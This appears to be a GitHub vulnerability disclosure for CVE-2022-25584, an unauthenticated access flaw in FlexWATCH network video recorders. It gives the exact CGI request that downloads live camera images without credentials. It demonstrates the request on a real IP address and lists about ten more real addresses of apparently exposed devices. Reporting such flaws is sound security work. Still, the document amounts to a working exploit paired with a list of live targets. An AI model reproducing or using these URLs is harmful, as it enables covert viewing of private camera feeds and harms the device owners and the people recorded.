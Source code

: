 # Flexwatch

Flexwatch-CVE

This document is for CVE-2022-25584   "RESERVED" 

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25584

![image](https://user-images.githubusercontent.com/102948391/161503085-b2d21191-216f-4ea5-8e69-45efd0bbd134.png)

This vulnerability has been indexed by CNVD, but has not yet been made public

CNVD ID:CNVD-2021-103443

![image](https://user-images.githubusercontent.com/102948391/161504052-6e96866b-01f9-4d84-b770-6a0b7d83f021.png)


Vulnerability to reproduce:

We found that the FlexWATCH FW3170-PS-E Network Video System 4.23-3000_GY owned by Seyeon Tech Co., Ltd. has an unauthenticated access vulnerability, which can be exploited by attackers to obtain monitoring images and leak sensitive information

For example:

http://211.174.227.102:10001/app/multi/single.asp

![image](https://user-images.githubusercontent.com/102948391/161505458-256b4f7a-b4de-46c8-ae76-2fdb9f545da4.png)

Then,we can visit:http://211.174.227.102:10001/cgi-bin/fwcamimgsave.cgi?FwModId=0&PortId=0&FwCgiVer=0x0001

Download monitoring real-time screen

![image](https://user-images.githubusercontent.com/102948391/161505912-208a6dae-05c9-4b91-a6cd-bf143de712c9.png)

![image](https://user-images.githubusercontent.com/102948391/161506260-1392190f-4cbb-4c74-89e3-567ce2ef5f06.png)

Company official website:http://www.flexwatch.com/

Other cases:

http://211.240.10.38:10001/app/multi/single.asp

http://121.133.21.35:10001/app/multi/single.asp

http://210.223.145.159:10001/app/multi/single.asp

http://115.142.194.178:10001/app/multi/single.asp

http://115.142.194.178:10001/app/multi/single.asp

http://27.1.124.18:10001/app/multi/single.asp

http://183.100.61.196:10001/app/multi/single.asp

http://118.176.196.247:10001/app/multi/single.asp

http://211.36.62.253:10001/app/multi/single.asp

http://211.174.227.230:10001/app/multi/single.asp




